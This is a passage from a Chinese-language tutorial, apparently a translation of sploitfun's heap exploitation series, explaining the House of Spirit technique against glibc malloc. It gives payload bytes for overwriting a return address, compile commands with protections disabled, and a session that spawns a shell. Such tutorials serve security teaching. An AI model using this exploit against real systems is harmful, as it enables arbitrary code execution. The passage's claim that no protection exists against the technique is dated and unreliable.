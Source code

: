 第[4]行：将栈区域加入到’glibc malloc’的 fast bin

free()调用[_int_free](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3803))_。 缓冲区溢出后，ptr1 = 0xbffffdf0(而不是0x804aa08)。被覆盖的ptr1作为参数传递非free()。这样一来，可以欺骗’glibc malloc’来释放位于栈中的内存区域。正要被释放的栈区域位于ptr1-8+4 处，而这已经被攻击者用0x30覆盖，因此’glibc malloc’把这个chunk当做[fast chunk](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3848)（因为48<64)，然后将被释放的chunk[插入](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3910)到位于[索引4](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3887) 处的fast binlist的前端。

第[5]行:获取栈区域(第[4]行中被添加)

对40的分配请求被[checked_request2size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3322)  转化为对48的请求。由于可用大小(usable size) ‘48’属于fast chunk中，可以获取它对应的[fast bin](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3333)  (位于索引4处)。Fast bin的第一个chunk被[移除](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3341) 并返回给[用户](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3355) 。第一个chunk什么都不是，但在第[4]行执行期间，栈区域被添加进去了。  

第[6]行：覆盖返回地址  

* 将攻击者的’argv[1]’拷贝到栈区域(被’glibc malloc’返回)，其起始地址是是0xbffffdf0. argv[1]的前16个字节是:
	- xeb\x0e - Jmp by 14字节
	- \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41 – Pad
	- \xb8\xfd\xff\xbf - 存储在栈中的返回地址被此值覆盖。因此，在fvuln执行之后EIP变为0xbffffdb8- 这块区域包含有jmp指令，随后就是触发shell的shellcode!
	
利用攻击者的参数执行上述漏洞程序，将会执行shellcode,如下所示：  

```
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -fno-stack-protector -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$ ./exp 
PTR1 = [ 0x804a008 ]
PTR1 = [ 0xbffffdf0 ]
AAAAAAAAAA����1�Ph//shh/bin��P��S�
$ ls
cmd  exp  exp.c  print	vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/Dropbox/sploitfun/heap_overflow/Malloc-Maleficarum/hos$
```
保护：至今为止，还没有针对这项技术的保护措施。所以就算用最新的glibc编译，这项技术也可以帮助我们成功利用堆溢出。  

注意：出于演示目的，上述漏洞程序编译时关闭以下保护机制： 

[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  
[NX](https://en.wikipedia.org/wiki/NX_bit)  
[RELRO(ReLocation Read-Only)](https://isisblogs.poly.edu/2011/06/01/relro-relocation-read-only/) 

## 参考

[The Malloc Maleficarum](http://packetstormsecurity.com/files/view/40638/MallocMaleficarum.txt)